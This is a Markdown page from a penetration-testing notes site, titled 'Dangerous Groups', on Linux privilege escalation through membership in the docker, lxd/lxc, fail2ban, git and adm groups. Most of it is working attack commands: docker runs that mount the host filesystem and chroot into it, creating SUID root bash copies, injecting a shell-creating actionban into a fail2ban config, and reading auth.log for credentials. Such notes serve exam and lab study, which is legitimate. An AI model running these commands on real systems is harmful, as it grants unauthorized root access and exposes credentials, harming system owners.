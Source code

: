 ```yaml
---
title: Dangerous Groups
parent: Method (Linux)
layout: default
nav_order: 7
---
```


## docker
1. If you run `id` and notice you are part of docker group can try this.
2. Check where is the docker socket: `find / -name docker.sock 2>/dev/null`\
   (Check if it is at /run/docker.sock)
3. List all the images available: `docker images`
4. Mount the disk and has root permission (prefer ubuntu, put in imagename): \
   `docker run -it -v /:/host/ imagename chroot /host/ bash`
5. (Alternatively) can run the below:\
   `docker run -it --rm --pid=host --privileged ubuntu bash`\
   OR\
   `docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash`
6. If docker is not at /run/docker.sock, use the `-H` parameter, for example:\
   `-H unix:///path/to/docker.sock`

## lxd / lxc
1. Use `id` and if your user is in either lxd or lxc group, can priv esc.
2. Follow here: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation
3. Browse to /mnt/root to see the actual filesystem mounted as root.
4. Copy bash and set SUID:
   `cp /mnt/root/bin/bash /mnt/root/tmp/`
   `chmod 7777 /mnt/root/tmp/bash`
5. Use `exit` to exit from container and run `/tmp/bash -p` to get root

## fail2ban
1. Check if you have write access to the following:\
   `ls -la /etc/fail2ban/action.d/iptables-multiport.conf`
2. If yes, use the following:\
   `echo "actionban = cp /bin/bash /tmp/rootbash;chown root /tmp/rootbash;chmod +s /tmp/rootbash" >> ./iptables-multiport.conf`
3. Attempt to login with wrong credentials using ssh / other action that trigger ban.
4. run `/tmp/rootbash -p`

## git
1. If you are able to SSH into an account with git access, can push changes to the local git. First:\
   `GIT_SSH_COMMAND='ssh -i id_rsa -p PORT' git clone git@IP:/gitpathname`
2. Change directory into the git path: `cd gitpathname`
3. Configure the identity of Git:
   `git config --global user.name "kali"`
   `git config --global user.email "kali@kali.(none)"`
4. Make whatever changes to the file (remember to `chmod+x` for executables)
5. Add and commit the change:\
   `git add -A`\
   `git commit -m "pwn"`
6. Push the change:\
   `GIT_SSH_COMMAND='ssh -i ~/id_rsa -p PORT' git push origin master`

## adm
Will usually have access to read logs

1. Check the permission:\
   `ls -la /var/log/auth.log`
2. Read to see if got any credentials that can be used:\
   `cat /var/log/auth.log`
